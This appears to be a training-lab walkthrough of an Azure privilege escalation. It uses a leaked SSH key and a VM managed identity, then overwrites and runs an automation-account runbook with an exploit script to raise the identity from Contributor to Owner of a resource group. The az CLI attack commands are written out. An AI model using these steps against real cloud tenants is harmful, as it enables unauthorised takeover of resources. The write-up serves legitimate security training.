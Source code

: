 # Objective

Leverage the misconfiguration and escalate privilege to the owner of the resource group.

# Solution

### Login to the virtual machine using the credentials obtained from the config.txt file.

Provide the write permission to the justin.pem file and login to the virtual machine

```
chmod +600 justin.pem

ssh -i justin.pem justin@40.85.170.40
```

![](https://user-images.githubusercontent.com/65826354/183737316-807e8ff3-cfe8-4cc3-a4db-9e260dea3eb1.png)

### Try to perform az login and check whether we can interact with the resources or not.

```
az login -i
```

![](https://user-images.githubusercontent.com/65826354/183737322-916d1d8e-b8f6-4e6e-8e84-e3fcd7758acf.png)

### List the resources

```
az resource list
```

![](https://user-images.githubusercontent.com/65826354/183737331-91b0f964-b607-424f-a930-ebc7248eb52f.png)

Look for the name of VM and principal id in the output.

### Check the level of access given to our VM

```
az role assignment list -g user_blog_app
```

Match the principal id with the resources

![](https://user-images.githubusercontent.com/65826354/183737337-f2f85115-8e8b-4c45-9002-a5768546b3e1.png)

Now, check the level of access given to our VM

![](https://user-images.githubusercontent.com/65826354/183737343-4a4a5a29-ebc2-43c6-a001-cf34510e20dc.png)

We have a contributor role assigned. We can not perform role assignment operations.

### Check the list of resources to find out which resource is associated with the owner-level identity.

![](https://user-images.githubusercontent.com/65826354/183737348-4d2b9549-9359-4efd-a167-f112013488d9.png)

![](https://user-images.githubusercontent.com/65826354/183737354-27fdcc60-58ec-45c8-a0c3-b0abf6d459a3.png)

We found an automation account with owner privileges. 

### Check for the runbooks to perform privileges escalation.

![](https://user-images.githubusercontent.com/65826354/183737359-b9ce3b71-1531-48a8-8ee7-6fc1cc689e91.png)

We found a PowerShellWorkFlow based runbook.

Run-
```
az automation runbook list --automation-account-name dev-automation-account-test -g user_blog_app
```

![](https://user-images.githubusercontent.com/65826354/183737366-32394666-7473-4d38-a266-817cf66c0a68.png)

### Write a PowerShell script

![](https://user-images.githubusercontent.com/65826354/183737373-0d4de08c-4782-41e5-947d-7dee0ecf35e1.png)

Now replace the details with the actual one.

![](https://user-images.githubusercontent.com/65826354/183737373-0d4de08c-4782-41e5-947d-7dee0ecf35e1.png)

### Replace, publish, and re-start the runbook

```
az automation runbook replace-content --automation-account-name "dev-automation-account-test" --resource-group "user_blog_app" --name "Get-AzureVM" --content @exploit.ps1

az automation runbook publish --automation-account-name "dev-automation-account-test" --resource-group "user_blog_app" --name "Get-AzureVM"

az automation runbook start --automation-account-name "dev-automation-account-test" --resource-group "user_blog_app" --name "Get-AzureVM"
```

![](https://user-images.githubusercontent.com/65826354/183737393-71783bc1-0d89-4df4-94fc-dfccd7b444c2.png)

### Check the role assignment list

```
az role assignment list -g user_blog_app
```

![](https://user-images.githubusercontent.com/65826354/183737404-198f7ef3-8b93-4e59-b0dd-05624d7c50c4.png)

Find our VM using the principal id.

![](https://user-images.githubusercontent.com/65826354/183737413-b1df1449-dd20-4ec3-9104-d7d487301fed.png)

The role got changed from contributor to owner.

***Congrats! We successfully escalated the privileges to the owner of the resource group.***


